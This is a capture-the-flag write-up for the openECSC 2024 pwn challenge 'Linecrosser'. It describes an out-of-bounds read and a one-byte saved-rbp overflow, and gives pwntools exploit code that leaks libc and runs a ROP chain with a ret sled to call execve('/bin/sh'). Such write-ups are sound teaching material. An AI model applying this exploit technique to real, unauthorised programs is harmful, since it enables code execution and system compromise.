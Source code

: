 # openECSC 2024 - Round 1

## [pwn] Linecrosser (44 solves)

Check out this sick game with dark humour, will you be the first one to cross the line and go too far?

`nc linecrosser.challs.open.ecsc2024.it 38002`

The docker image for this challenge is `cybersecnatlab/challenge-jail@sha256:7bf77225063b039960f654307cf5d6f977f892ff548606357a2e8fe8067d0a88`.

Author: Fabio Zoratti <@orsobruno96>

## Overview

The challenge is presented as a standard compiled C source file that has the classical "menu" of pwn challenges.

The choices are not many

```text
Welcome to Cards Against Hackers TM
Who will be the first to cross the line and `buttarla di fuori`?
1) Play
2) Create custom card
3) Show custom card
4) Exit
```

You can play an incomplete version of Card Against Humanity with a very small deck, and create your own cards. There is no win function in this binary, so it seems to be necessary to completely hijack the execution flow of the program and `execve(/bin/sh)`. The binary is compiled with some, but not all protections:

- no canary
- ASLR is active
- there are no rwx regions

Dynamical memory allocations is done twice with `malloc`, but you cannot double free if you never free, so a heap exploitation seems not viable.
However we can find at least two different vulnerabilities:

- a read primitive in `show_custom_card`. No bound check is performed at all on the index of the card, and this means that we can use it to leak data.

```c
  switch (choice) {
  case 1:
    printf("Answer: '%s'\n", answers[choice2].content);
    break;
  case 2:
    printf("Prompt (%llu completions): '%s'\n", prompts[choice2].number_of_completions, prompts[choice2].content);
    break;
```

we have to be careful, because it is really easy to dereference an invalid pointer and crash the program, using the '%s'.

- a tiny buffer overflow in `create_custom_card`. The overflow can overwrite only the LSB of `old_rbp` on the stack, but this may be sufficient for a _probabilistic_ rop chain. If we overwrite with a null byte the LSB, the old rbp will go up in the stack, and if we exit two functions, with `leave; ret;`, we may find ourselves on the buffer that we can control.

## Strategy

- leak libc_base and/or binary base with vulnerability number 1, reading data from the stack. Here in the writeup, also the canary is read, just in case.
  To simplify our exploit, we use the internal functions of pwntools to compute addresses. The libc binary always has ASLR active, so to compute the address of a symbol we can set the property `libc.address`, and the next time we access a symbol, like `libc.sym['printf']`, it will have the correct absolute address.

```python
from re import search
from pwn import log


def menu(io, choice: int):
    io.sendlineafter(b"4) Exit", f"{choice}".encode())

def show_card(io, num: int):
    menu(io, 3)
    io.sendlineafter(b"Answer (1)", b"2")
    io.sendlineafter(b"Which one?", f"{num}".encode())
    content = search(r"Prompt \(([0-9]+) completions\): '", io.recvuntil(b"'").decode()).groups(1)
    return int(content[0], 10)


def main():
    io = process(exe.path)
    END = 0x3f8
    CANARY_OFF = 41
    LIBC_OFF = 42
    canary = show_card(io, CANARY_OFF)
    log.success(f"{canary = :#018x}")
    address = show_card(io, LIBC_OFF)
    libc.address = address - (libc.sym['__libc_start_main'] + 0x80)
    log.success(f"{libc.address = :#018x}")

```

- prepare a rop chain with a "ret sled" on the stack, in order to maximize the probability of returning on a valid start for the rop chain
  A "ret" sled is simply a long rop chain with the gadget that performs only the "ret" instruction. This is useful because if we do not know exactly where we will start, this allows us to have a big memory region where we can land and perform the correct operations after some no-ops.

  In this case we do not need to set rdx, because it already contains a valid memory reference to some dummy environment. Finding a gadget with rdx is always a bit more painful than `rdi` or `rsi`.

```python
def create_prompt(io, numcomp: int, content: bytes):
    menu(io, 2)
    io.sendlineafter(b"Answer (1)", b"2")
    io.sendafter(b"prompt", content)
    io.sendlineafter(b"completions?", f"{numcomp}".encode())


def main():
    ....
    path = find_gadgets()
    RET = search_gadget("ret", "ret", path)
    POP_RDI = search_gadget("pop rdi; ret;", "pop rdi", path)
    POP_RSI = search_gadget("pop rsi; ret;", "pop rsi", path)
    chain = flat(
        POP_RDI,
        next(libc.search(b"/bin/sh\x00")),
        POP_RSI,
        0,
        libc.sym['execve']
    )
    filler = [RET for _ in range((END - len(chain)) // 8)]
    create_prompt(io, 0, flat({
       0: flat(
          *filler,
          chain,
       ),
       END: flat(
            canary,
        ),
    }))

```

- run the exploit until it works (should be a sufficiently large probability, > 10%). Experimentally I found approximately between 1/3 and 1/2.

